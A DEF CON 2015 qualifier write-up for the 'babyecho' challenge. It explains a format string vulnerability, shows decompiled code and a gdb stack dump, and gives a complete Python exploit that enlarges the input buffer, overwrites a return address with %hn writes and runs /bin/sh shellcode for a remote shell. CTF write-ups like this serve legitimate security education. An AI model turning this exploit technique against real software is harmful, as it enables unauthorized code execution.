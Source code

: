# DEF CON Qualifier 2015: babyecho

**Category:** Baby's First
**Points:** 1
**Solves:** TODO
**Description:**

> babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me:3232
>
> [Download](http://downloads.notmalware.ru/babyecho_eb11fdf6e40236b1a37b7974c53b6c3d)


## Write-up

_This write-up is made by boogy of the on_est_pas_contents CTF team._

The binary is 32bit and striped:
```bash
$ file babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
babyecho_eb11fdf6e40236b1a37b7974c53b6c3d: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=c9a66685159ad72bd157b521f05a85e2e427f5ee, stripped
```
Fuzzing around with the binary before eaven reverse enginnering it, we sat that there is a format string vulnerability in the function that echos out the user input.
```bash
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
AAAA
AAAA
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
%p%p%p%p
0xd0xa(nil)0xd
```
The problem here is that the buffer only accepts 13 bytes of user input so it's not possible to craft a correct format string payload and overwrite stuff. We need to reverse engineer the function that takes the user input and find out where the size variable is.

I'll not paste all the functions here to save some space but here is the function which is important to us, that prints the user input:
```C
int __usercall sub_8048F3C@<eax>(int a1@<ebx>)
{
  int v1; // ecx@1
  signed int buffer_max_length; // eax@2
  int v3; // ecx@4
  int buffer_length; // [sp+10h] [bp-410h]@1
  int v7; // [sp+1Ch] [bp-404h]@4
  int v8; // [sp+41Ch] [bp-4h]@1

  v8 = *MK_FP(__GS__, 20);
  buffer_length = 13;                           // default buffer length is 13 bytes
  sub_804FC40(off_80EA4C0, 0, 2, 0);
  sub_804DE70(14, sub_8048EB1);
  sub_806CB50(v1, a1);
  while ( 1 )
  {
    buffer_max_length = 1023;                   // maximum length for the buffer
    if ( buffer_length <= 1023 )
      buffer_max_length = buffer_length;
    buffer_length = buffer_max_length;
    sub_804F560("Reading %d bytes\n", buffer_max_length);
    sub_8048E24((int)&v7, buffer_length, 10);
    sub_8048ECF((int)&v7);
    sub_804F560((const char *)&v7);
    sub_804FDE0(10);
    sub_806CB50(v3, a1);
  }
}
```
We can see that the size variable is by default 13 bytes. What is important to note is that the binary checks if the buffer length does not exceed 1023, which means that even if we rewrite the size we can't go more than 1023.

So how do we bypass the 13 bytes restriction and change it to the maximum size **1023**? Well with format strings you have a write what where condition. After some gdb foo we can see the stack layout:

So the stack looks like this:

* %1$x -> 0xd
* %2$x -> 0xa
* %3$x -> 0x0
* %4$x -> 0xd
* %5$x -> pointer to our buffer (first char in "AAAA" on the stack)
* %6$x -> 0x0
* %7$x -> start of our input "AAAA"

We can see this in gdb:

```bash
--------------------------------------------------------------------------[regs]
  EAX: 0x0000000D  EBX: 0x080481A8  ECX: 0x080EB4D4  EDX: 0x080481A8  o d I t S z A p C
  ESI: 0x00000000  EDI: 0x080EA00C  EBP: 0xFFFFD598  ESP: 0xFFFFD170  EIP: 0x08048FDB
  CS: 0023  DS: 002B  ES: 002B  FS: 0000  GS: 0063  SS: 002B
--------------------------------------------------------------------------[code]
=> 0x8048fdb:   call   0x804f560
   0x8048fe0:   mov    DWORD PTR [esp+0x8],0xa
   0x8048fe8:   mov    eax,DWORD PTR [esp+0x10]
   0x8048fec:   mov    DWORD PTR [esp+0x4],eax
   0x8048ff0:   lea    eax,[esp+0x1c]
   0x8048ff4:   mov    DWORD PTR [esp],eax
   0x8048ff7:   call   0x8048e24
   0x8048ffc:   lea    eax,[esp+0x1c]
--------------------------------------------------------------------------------
Breakpoint 1, 0x08048fdb in ?? ()
gdb$ x/32w $esp+4
0xffffd174:     0x0000000d      0x0000000a      0x00000000      0x0000000d
0xffffd184:     0xffffd18c      0x00000000      0x41414141      0x00000000
0xffffd194:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1a4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1b4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1c4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1d4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1e4:     0x00000000      0x00000000      0x00000000      0x00000000
gdb$ x/x 0xffffd18c
0xffffd18c:     0x41414141
```
We can also verify it by giving a **%p** to the binary as input to leak stack values:
```bash
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
%p%p%p%p%p%p
0xd0xa(nil)0xd0xffffd18c(nil)
```
Or accessing directly the buffer address on the stack:
```bash
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
%5$p
0xffffd18c
```
The first **0xd** is 13 in hex so this is the buffer default length. So how can we override it ? That's simple, with the format strings we can leak the buffer address and then calculate the address of the size on the stack then we write to that address.

Here is the final exploit:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
from struct import pack, unpack

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

# p = remote("localhost", 1338)
p = remote("babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me", 3232)
log.info(p.recvuntil("\n"))

#leak buffer address
p.sendline("%5$x")
buffer_address = int(p.recvuntil("\n"), 16)
log.info("Buffer is at %s" % hex(buffer_address))
log.info(p.recvuntil("\n"))

get_address = lambda i: buffer_address+4*(i-7)

# change buffer size to 1023==0x3ff
# buffer_address is 12 bytes after 0xd on the stack
p.sendline(p32(get_address(4)+1)+"%7$hhn") # buffer_address-0xc+1 => 0xd
p.recvuntil("\n")
log.info(p.recvuntil("\n"))

addr2write = get_address(-1)
addr0 = buffer_address+32
addr1 = hex((addr0 >>16)& 0xFFFF)
addr2 = hex(addr0 & 0xFFFF)

payload = str(p32(addr2write)) + str(p32(addr2write+2)) + \
        "%" + str(int(addr1, 16)-8) + "x%8$hn" + \
        "%" + str(int(addr2.replace('0x', '0x1'),16)-int(addr1,16)) + "x%7$hn" + "\x90"*100 + shellcode

log.info("Sending payload")
p.sendline(payload)
p.interactive()
```
> The format string payload could be easily generated with the libformatstr.

Running the exploit we get a shell
```bash
[+] Opening connection to localhost on port 1338: Done
[*] Reading 13 bytes
[*] Buffer is at 0xffb3d4ec
[*] Reading 13 bytes
[*] Reading 1023 bytes
[*] Sending payload
[*] Switching to interactive mode
...
$ cat /home/babyecho/flag
The flag is: 1s 1s th3r3 th3r3 @n @n 3ch0 3ch0 1n 1n h3r3 h3r3? 3uoiw!T0*%
```


## Other write-ups and resources

* <http://pastebin.com/TGuRLGCQ>
* <https://ctf-team.vulnhub.com/defcon-2015-quals-babyecho/>
* <http://geeksspeak.github.io/blog/2015/05/18/defconctf-2015-quals-babyecho-writeup/>
* [Korean](http://blackcon.tistory.com/121)
